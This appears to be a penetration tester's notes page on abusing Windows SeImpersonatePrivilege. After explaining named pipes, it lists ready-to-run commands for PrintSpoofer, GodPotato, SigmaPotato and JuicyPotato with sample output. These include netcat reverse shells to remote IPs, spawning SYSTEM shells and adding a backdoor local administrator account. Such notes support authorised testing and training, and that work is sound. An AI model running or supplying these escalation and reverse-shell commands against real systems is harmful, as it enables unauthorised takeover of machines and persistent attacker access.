


# SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**.&#x20;


**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time.


The `SeImpersonate` privilege is normally assigned to Administrator accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, it is often accessible when gaining code execution through services like IIS, which commonly run under accounts that have it. In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## PoCs



Check the OS build and map its version:

```powershell
>ver
Microsoft Windows [Version 10.0.18362.719]

>systeminfo
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.18362 N/A Build 18362
```

<figure><figcaption></figcaption></figure>



For versions between `1809` - `1909` check if the Spooler service is runing:

```powershell
# Check if Spooler is running
>sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED

> Get-Service -Name Spooler

Status   Name               DisplayName
------   ----               -----------
Stopped  Spooler            Print Spooler
```



Check the table below:

<figure><figcaption></figcaption></figure>



<table><thead><tr><th width="127">Exploit</th><th width="212">Target Mechanism</th><th>Typical Use Case / Notes</th><th>OS Compatibility</th></tr></thead><tbody><tr><td><strong>JuicyPotato</strong></td><td>COM objects implementing <code>IMarshal</code></td><td>Flexible; works with many COM objects. Use <code>-z</code> to test CLSID first.</td><td>Most Windows versions (Server 2008 SP1 and up, including 10/11)</td></tr><tr><td><strong>PrintSpoofer</strong></td><td>RPC / Named Pipes (Print Spooler API)</td><td>Fast and reliable; requires Print Spooler service to be running.</td><td>Windows 10 / 2016–2019 (some patched)</td></tr><tr><td><strong>GodPotato</strong></td><td>COM Server Hijack</td><td>Use when PrintSpoofer is patched; requires specific COM object.</td><td>Newer Windows (10/11)</td></tr><tr><td><strong>SigmaPotato</strong></td><td>Event Log Service / Spooler / WMI</td><td>Fallback when PrintSpoofer and GodPotato fail; depends on legacy service configuration.</td><td>Windows 10+ (better on newer builds)</td></tr></tbody></table>



[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) is a local privilege escalation exploit that abuses the `SeImpersonatePrivilege` to impersonate the `SYSTEM` account via a named pipe trick. It can be leveraged to sent a reverse shell or execute commands directly:

```powershell
# Reverse shell
PrintSpoofer.exe -c "nc.exe 10.10.13.37 1337 -e cmd"

# Command execution
PrintSpoofer.exe -i -c cmd
```

It can also be used to spawn a `SYSTEM` shell on the desktop, for instance, when logged in via an RDP session:

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>rdp-tcp           lab-user                  3  Active
 
# Spawn a new shell
C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```



[GodPotato](https://github.com/BeichenDream/GodPotato) is a local privilege escalation exploit that abuses `COM` and `SeImpersonatePrivilege` to impersonate `SYSTEM` by hijacking privileged tokens via named pipes.

```powershell
# Reverse shell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

# Command execution
GodPotato -cmd "cmd /c whoami"
```



[SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) is a local privilege escalation exploit that leverages the `SeImpersonatePrivilege` and the Event Log service to hijack a `SYSTEM` token through named pipe impersonation.

```powershell
# Reverse shell
./SigmaPotato.exe --revshell <ip_addr> <port>

# Command execution
./SigmaPotato.exe <command>
```

It can be also used to create a new local administrator:

```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
User        CLIENTWK220\dave4         Local
```



[JuicyPotato](https://github.com/ohpe/juicy-potato) is a Windows privilege escalation tool that elevates service account privileges to `NT AUTHORITY\SYSTEM` by exploiting COM objects with `SeImpersonatePrivilege`. It instantiates vulnerable COM classes, triggers local NTLM authentication, and executes arbitrary commands with `SYSTEM`-level access. The tool allows specifying CLSID, port, and target executable, making it effective when traditional escalation methods are blocked or systems are hardened. Various CLSID lists can be found [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID).


```bash
> Juicy.Potato.x86.exe -p c:\windows\system32\cmd.exe -t * -a "/c C:\wamp\www\nc.exe 192.168.45.241 80 -e cmd.exe" -l 80 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 80
....
[+] authresult 0
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
​
[+] CreateProcessWithTokenW OK
```




WIP ([RoguePotato](https://github.com/antonioCoco/RoguePotato))



## To Test

> Based on: [https://jlajara.gitlab.io/Potatoes\_Windows\_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

1. Sweet Potato as the go to?
2. ≥ Win 10 1809 / Server 2019 -> RoguePotato
3. < Win 10 1809 / Server 2019 -> JuicyPotato


* HotPotato for Win 7,8,10 / Server 2008 and 2012
* JuicyPotato ->  < Win 10 1809 / Server 2019
* RoguePotato ->
* SweetPotato ([https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)) -> Combination of RottenPotato, JuicyPotato, PrintSpoofer, EfsPotato, PetitPotam
* GenericPotato ([https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)) -> modified SweetPotato, when Spooler isn't running
